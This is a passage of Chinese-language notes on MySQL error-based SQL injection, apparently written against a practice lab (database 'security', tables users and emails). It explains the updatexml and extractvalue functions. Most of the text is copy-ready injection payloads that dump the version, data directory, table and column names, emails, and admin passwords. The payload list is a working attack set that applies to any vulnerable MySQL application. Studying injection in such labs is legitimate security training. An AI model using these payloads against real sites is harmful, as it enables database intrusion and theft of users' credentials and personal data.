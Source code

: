 exp3：替换的内容

报错原理：

```sql
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+

123' and (updatexml(1,concat(0x5c,version(),0x5c),1)) --+#     爆版本

123' and (updatexml(1,concat(0x5c,database(),0x5c),1)) --+#    爆数据库
 
 123' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1)) --+#      爆表名

123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1)) --+#爆字段名
 
123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1)) --+#爆密码该格式针对mysql数据库。

爆其他表就可以，下面是爆emails表
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#
 
1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
```

substr(exp,offset,length)

exp:要查询的语句

offset：偏移量

length：长度/显示的位数

##### 1.4.2 extractvalue

extractvalue(exp1,X-Path):查询xml文件中指定的内容

exp1：查询的内容

X-Path: 路径

```sql
爆路径：
?id=1' and extractvalue(1,concat(0x7e,@@datadir,0x7e)) --+

爆版本：
and extractvalue(1,concat(0x5c,version(),0x5c))--+    

爆数据库：
1' and extractvalue(1,concat(0x5c,database(),0x5c))  --+
 
爆表名：
1' and extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c)) --+

爆字段名：
1' and extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c)) 
 
爆字段内容该格式针对mysql数据库：
1' and extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c)) --+      

爆字段内容：
1' and extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c)) --+
```
